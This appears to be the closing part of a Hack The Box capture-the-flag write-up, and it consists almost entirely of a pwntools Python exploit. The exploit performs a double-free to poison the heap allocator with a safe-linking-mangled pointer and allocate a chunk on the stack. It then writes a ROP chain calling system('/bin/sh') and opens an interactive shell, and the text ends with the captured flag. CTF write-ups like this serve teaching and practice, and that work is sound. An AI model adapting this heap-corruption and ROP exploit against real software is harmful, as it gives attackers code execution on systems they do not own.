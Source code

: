 ```python
log.critical(f"stack_leak: {hex(stack_leak)}")

#Writing ROP chain 

for i in range(10):
    malloc(i, 0x68, "A"*0x68)

for i in range(7):
    free(i)

free(8)
free(7)
free(8)

for i in range(7):
    malloc(i, 0x68, "A"*0x68)

pos = heap_leak + 0x13e0
ptr = stack_leak - 424

log.critical(f"allocating chunk on stack @ {hex(ptr)}")

malloc(7, 0x68, p64((pos >> 12) ^ ptr))
malloc(7, 0x68, "F"*0x68)
malloc(7, 0x68, "G"*0x68)


pop_rdi = p64(libc.address + 0x001bbea1)
ret = p64(libc.address + 0x001bc065)

chain =  p64(stack_leak - 424) + ret + pop_rdi + p64(next(libc.search(b"/bin/sh"))) + p64(libc.sym['system'])

malloc(7, 0x68, chain)


p.interactive()
```  

--- 

#### Flag : `HTB{0m43_w4_m0u_5h1nd31ru~uWu}`   
 







